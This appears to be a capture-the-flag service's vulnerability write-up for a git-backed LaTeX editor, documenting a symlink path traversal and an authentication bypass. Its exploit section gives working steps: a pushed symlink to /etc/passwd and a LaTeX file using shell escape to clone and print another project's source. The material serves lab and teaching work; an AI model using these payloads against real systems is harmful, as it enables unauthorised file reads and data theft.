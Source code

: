 # Vulnerabilities

## Arbitrary Read
- Category: Path traversal
- Difficulty: Medium
It is possible to upload a symlink to a file via git. The endpoint `/api/files/download/:id/*` will follow this symlink read the file.

## Authentication Bypass
- Category: Authentication
- Difficulty: Medium

# Exploits
## Arbitrary Read
- Create an account
- Create a project
- Clone the project to your local machine:
```bash
$ git clone http://127.0.0.1:8080/git/d475a0513dcd1e5b3c7239420a58729d9b49360c2c5c277bc9eb1c0d7dacc954
Cloning into 'd475a0513dcd1e5b3c7239420a58729d9b49360c2c5c277bc9eb1c0d7dacc954'...
Username for 'http://127.0.0.1:8080': a
Password for 'http://a@127.0.0.1:8080': 
remote: Enumerating objects: 3, done.
remote: Counting objects: 100% (3/3), done.
remote: Compressing objects: 100% (2/2), done.
remote: Total 3 (delta 0), reused 0 (delta 0)
Unpacking objects: 100% (3/3), 334 bytes | 334.00 KiB/s, done.
$ cd d475a0513dcd1e5b3c7239420a58729d9b49360c2c5c277bc9eb1c0d7dacc954/
$ ls -la
total 16
drwxrwxr-x  3 hllm hllm 4096 Jun  1 21:06 .
drwxrwxrwt 23 root root 4096 Jun  1 21:06 ..
drwxrwxr-x  8 hllm hllm 4096 Jun  1 21:06 .git
-rw-rw-r--  1 hllm hllm  216 Jun  1 21:06 main.tex
```
- Create a symlink and push it to the repo
```bash
$ ln -s /etc/passwd link
$ git add . && git commit -m "Added symlink to /etc/passwd"
$ git push
```
- Pull the changes by clicking on `Pull` in the project view
- Open the `link` now present in the file list

## Authentication Bypass
LaTeX can be used to run code[¹](https://0day.work/hacking-with-latex/), this is a feature of this service, however, this also allows acces to the `nginx-git` container.
This container itself dose not check for any authentication when cloning.
- Create a project
- Upload a file containing
```tex
\documentclass[12pt]{scrartcl}
\usepackage{verbatim}
\begin{document}
    \input{|"echo XGJlZ2lue3ZlcmJhdGltfQ== | base64 --decode; git clone http://nginx-git/ID; cat ./ID/main.tex; echo XGVuZHt2ZXJiYXRpbX0= | base64 --decode"}
\end{document}
```
- Compile this file
- The resulting pdf will contain `main.tex` of the proeject with the corrosponding id